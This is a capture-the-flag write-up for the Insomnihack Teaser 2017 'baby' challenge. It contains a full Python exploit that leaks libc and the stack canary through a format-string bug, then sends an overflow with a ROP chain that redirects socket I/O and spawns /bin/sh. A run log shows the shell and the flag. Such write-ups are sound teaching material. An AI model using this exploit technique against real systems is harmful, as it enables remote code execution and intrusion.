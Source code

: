 #baby - insomnihackTeaser 2017

As usual we execute `file` command on the binary
```bash
$ file baby 
baby: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
```

and with `checksec` we get... WHAT? 

```bash
./checksec --file baby 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes	0		10	baby
```

pretty nice for a baby pwnable :D But fortunately the binary is very easy (and the organizers provided us the libc): a server spawns a child process who does this 

```bash 
Welcome to baby's first pwn.
Pick your favorite vuln : 
   1. Stack overflow
   2. Format string
   3. Heap Overflow
   4. Exit
Your choice > 
```

so we have a lot of possibilities here. The idea is to leak some address and information through the format string bug and then perform a simple buffer overflow. 

In order to write a ropchain we have to find an address of the libc and then calculate the libc's offset starting from this. Looking at the stack through FSB we find 
that at offset 158 there is the address of '<__libc_start_main+240>'. We can also leak the canary on the stack: it is at offset 144.

This part of the exploit is 

```python 
import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    p = ''
    while not p.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        p += tmp

    return p

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

def recvMenu():
    recvuntil("Your choice > ")
    return

def leakAddrAtStack(offset,bytesToRead):
    print "LEAKING ADDR at stack offset " + str(offset)
    s.send("2\n")
    recvuntil("Your format > ")
    s.send("%" + str(offset) + "$lx\n")
    address = s.recv(bytesToRead)
    recvuntil("Your format > ")
    s.send("\n")
    return(int("0x" + address,16))

def doBufferOverflow(payload):
    print "PWNING"
    s.send("1\n")
    recvuntil("How much bytes you want to send ? ")
    s.send(str(len(payload)) + "\n")
    s.send(payload)
    print "INTERACTIVE"
    interactive()


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))

recvMenu()
libcstartmain_Address = leakAddrAtStack(158,12) - 0x20830   #offset 0x20830 from init
print hex(libcstartmain_Address)
recvMenu()
canary = leakAddrAtStack(144,16)
print hex(canary)
```

The first part of the ropchain is the redirection of the I/O using dup2 function

```python
p = ''

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8+ libcstartmain_Address)        # pop rsi; ret
p += p64(0x0)                                                                                
p += p64(0x00000000000F6D90+ libcstartmain_Address)        #dup2

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8+ libcstartmain_Address)        # pop rsi; ret
p += p64(0x1) 
p += p64(0x00000000000F6D90+ libcstartmain_Address)        # sockfd

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8 + libcstartmain_Address)       # pop rsi; ret
p += p64(0x3)
p += p64(0x00000000000F6D90+ libcstartmain_Address)
```

and finally the ropchain for '/bin/sh'

```python

p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3080+ libcstartmain_Address) # @ .data
p += pack('<Q', 0x0000000000033544+ libcstartmain_Address) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000002e19c+ libcstartmain_Address) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x000000000008ad15+ libcstartmain_Address) # xor rax, rax ; ret
p += pack('<Q', 0x000000000002e19c+ libcstartmain_Address) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000021102+ libcstartmain_Address) # pop rdi ; ret
p += pack('<Q', 0x00000000003c3080+ libcstartmain_Address) # @ .data
p += pack('<Q', 0x00000000000202e8+ libcstartmain_Address) # pop rsi ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x000000000008ad15+ libcstartmain_Address) # xor rax, rax ; ret
p += pack('<Q', 0x00000000000ab390+ libcstartmain_Address)*59 # add rax, 1 ; ret
p += pack('<Q', 0x00000000000bb7c5+ libcstartmain_Address) # syscall ; ret
doBufferOverflow("A"*(1032) + p64(canary)+ p64(0xdeadbeef) + p + "\n")
```

PWN'EM!!

```bash
$ python exploit.py baby.teaser.insomnihack.ch 1337
LEAKING ADDR at stack offset 158
0x7f129d29e000
LEAKING ADDR at stack offset 144
0x7971cd723454900
PWNING
INTERACTIVE
Good luck !

id
uid=1001(baby) gid=1001(baby) groups=1001(baby)
ls
baby
flag
cat flag
INS{if_you_haven't_solve_it_with_the_heap_overflow_you're_a_baby!}
```

The full exploit is available [here](exploit.py)! 
